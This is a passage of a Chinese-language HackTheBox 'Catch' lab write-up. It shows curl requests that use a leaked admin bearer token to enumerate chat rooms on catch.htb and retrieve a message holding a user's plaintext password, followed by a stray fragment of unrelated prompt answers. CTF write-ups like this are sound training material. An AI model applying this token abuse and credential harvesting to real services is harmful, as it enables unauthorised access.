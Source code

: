 ```
┌──(root㉿kali)-[~/htb/catch/catchv1.0]
└─# curl -s -X GET "http://catch.htb:5000/account/" -H "Authorization: bearer NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ==" | json_pp                              
{
   "avatar" : "e2b5310ec47bba317c5f1b5889e96f04",
   "displayName" : "Admin",
   "firstName" : "Administrator",
   "id" : "61b86aead984e2451036eb16",
   "lastName" : "NA",
   "openRooms" : [
      "61b86b28d984e2451036eb17",
      "61b86b3fd984e2451036eb18",
      "61b8708efe190b466d476bfb"
   ],
   "username" : "admin"
}
```

这显示了一个开放房间的列表。接下来我看了列表上的第一个房间:

```
┌──(root㉿kali)-[~/htb/catch/catchv1.0]
└─# curl -s -X GET "http://catch.htb:5000/rooms/61b86b28d984e2451036eb17" -H "Authorization: bearer NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ==" | json_pp 
{
   "created" : "2021-12-14T10:00:08.384Z",
   "description" : "Cachet Updates and Maintenance",
   "hasPassword" : false,
   "id" : "61b86b28d984e2451036eb17",
   "lastActive" : "2021-12-14T10:34:20.749Z",
   "name" : "Status",
   "owner" : "61b86aead984e2451036eb16",
   "participants" : [],
   "private" : false,
   "slug" : "status"
}
```

没有太大帮助，尽管它提到了我们之前在端口 8000 上发现的 Cachet。再次查看文档，您可以列出一个房间中的所有邮件，让我们这样做:

```
┌──(root㉿kali)-[~/htb/catch/catchv1.0]
└─# curl -s -X GET "http://catch.htb:5000/rooms/61b86b28d984e2451036eb17/messages" -H "Authorization: bearer NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ==" | json_pp
[
<SNIP>
   {
      "id" : "61b8702dfe190b466d476bfa",
      "owner" : "61b86f15fe190b466d476bf5",
      "posted" : "2021-12-14T10:21:33.859Z",
      "room" : "61b86b28d984e2451036eb17",
      "text" : "Here are the credentials `john :  E}V!mywu_69T4C}W`"
   },
<SNIP>
]
```


  [Unknown]:  1
  [Unknown]:  1
  [Unknown]:  1
  [Unknown]:  1
  [Unknown]:  1
  [Unknown]:  us
  [no]:  yes
